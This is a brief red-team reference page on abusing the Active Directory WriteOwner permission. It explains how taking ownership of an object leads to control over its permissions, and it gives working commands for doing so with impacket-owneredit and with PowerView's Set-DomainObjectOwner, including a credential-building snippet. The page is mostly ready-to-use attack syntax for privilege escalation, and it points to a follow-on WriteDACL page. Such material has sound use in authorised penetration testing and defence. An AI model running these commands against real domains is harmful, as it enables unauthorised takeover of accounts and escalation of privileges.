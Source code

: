 # WriteOwner

## Information

{% hint style="warning" %}
* **Ownership** give us the right to modify the object's permissions (DACL).
* Once we're owner, we can give ourselves `FullControl`, we don’t automatically get it.
{% endhint %}

This permission has the ability to modify the owner of the user, i.e, give the [`Owns`](owns.md) permission, which can then being used to modify object security descriptors, regardless of permissions on the object's DACL.

{% tabs %}
{% tab title="impacket-owneredit" %}
{% code overflow="wrap" %}
```bash
impacket-owneredit -action write -new-owner <compromised-user> -target <target-account> <domain>/<compromised-user>:<pass>
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Create an object with the compromised account's credentials
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

# Set the ownership of the target object with PowerView
Set-DomainObjectOwner -Credential $Cred -TargetIdentity "<target-account>" -OwnerIdentity "<compromised-user>"
```
{% endcode %}
{% endtab %}
{% endtabs %}

For subsequent exploitation steps check [`WriteDACL`](writedacl.md).
